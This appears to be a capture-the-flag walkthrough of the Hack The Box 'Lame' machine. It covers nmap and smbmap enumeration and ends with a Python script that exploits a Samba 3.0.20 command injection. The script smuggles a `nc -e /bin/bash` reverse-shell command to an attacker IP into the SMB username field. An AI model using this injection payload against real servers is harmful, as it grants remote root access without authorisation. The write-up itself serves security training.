

# Lame


## Initial Enumeration

The enumeration phase for this box is rather straight forward. To start off we will run a quick nmap scan with the following:

```bash
nmap -sV -sC 10.10.10.3
```

We can immediately see a possible point here:


This version of `vsftpd` is quite old and a quick google search for that version brings up this [exploit](https://www.exploit-db.com/exploits/17491). Unfortunately it looks like this isn't exploitable on this box. Our next option is Samba. We get some version information from nmap:


From this we only know that it's between 3.X - 4.X, which isn't all too useful. The most reliable way to fingerprint a Samba server is going to be capturing some network traffic and inspect the packets. For capturing packets you can use Wireshark or tcpdump (I'll use Wireshark here) and to generate the traffic we will just scan the server with `smbmap`. This gives us the dual purpose of collecting network packets as well as some additional enumeration on the service. From `smbmap` we can see that we have read/write access to a share `/tmp` as well as the version of the server:


We can also see the version number in Wireshark, which is `samba 3.0.20-Debian`:



## Exploitation

Searching for that with searchsploit brings up a metasploit [module](https://www.exploit-db.com/exploits/16320), but the exploit itself is pretty simple, so I will just write a python script to exploit it. Essentially we are injecting bash commands into the username field during the initial smb request. I'll use the following python script to kick off a reverse shell using the `-e` flag with `nc` on the target:

```python 
#!/usr/bin/python

from smb.SMBConnection import SMBConnection
from smb import smb_structs
smb_structs.SUPPORT_SMB2 = False
import sys
if len(sys.argv) < 2:
    print "\nUsage: " + sys.argv[0] + " <HOST>\n"
    sys.exit()


username = "/=`nc -e /bin/bash 10.10.14.12 4443`"
password = ""
conn = SMBConnection(username, password, "HACKTHEBOX" , "HTB", use_ntlm_v2 = False)
assert conn.connect(sys.argv[1], 445)
```

This gives us a root shell and we are able to read the `root.txt` file (as well as `user.txt` of course):


